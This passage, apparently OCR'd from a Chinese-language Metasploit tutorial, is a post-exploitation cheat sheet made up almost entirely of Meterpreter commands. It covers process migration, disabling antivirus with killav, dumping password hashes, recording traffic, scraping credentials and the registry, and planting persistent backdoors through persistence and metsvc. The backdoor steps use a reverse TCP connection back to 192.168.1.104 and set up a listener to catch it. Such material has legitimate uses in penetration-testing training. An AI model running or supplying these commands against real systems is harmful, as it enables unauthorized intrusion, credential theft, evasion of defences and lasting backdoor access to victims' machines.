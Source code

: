 -   迁移进程：

    ```bash
    run post/windows/manage/migrate
    或
    migrate [PID号]
    ```

-   关闭杀毒软件

    ```bash
    run killav
    ```

-   获取系统密码哈希值

    ```bash
    run hashdump
    ```

-   查看目标机上的所有流量

    ```bash
    run packetrecorder -i 1   # -i 1指定网卡
    ```

-   获取系统信息

    scraper 脚本可以列举出用户想获取的任何信息，包括用户名密码、下载全部注册表、挖掘密码哈希值、收集系统信息

    ```bash
    run scraper
    ```

### 创建持久后门

metaspolit 自带的后门有两种启动方式

1. 通过服务启动（metsvc）
2. 通过启动项启动（persistence）

#### persistence

```bash
sessions -i 1 #激活meterpreter会话
run persistence -h #查看帮助
run persistence -X -i 50 -p 443 -r 192.168.1.104#创建一个持久后门
background
use multi/handler #监听，等待目标主机反向连接攻击主机
set payload windows/meterpreter/reverse_tcp
set ...
exploit
```

#### metsv

```bash
run metsvc -h #查看帮助
run metsvc -A

backgound
use exploit/multi/handler
set payload windows/metsvc_bind_tcp
set ...
exploit
```
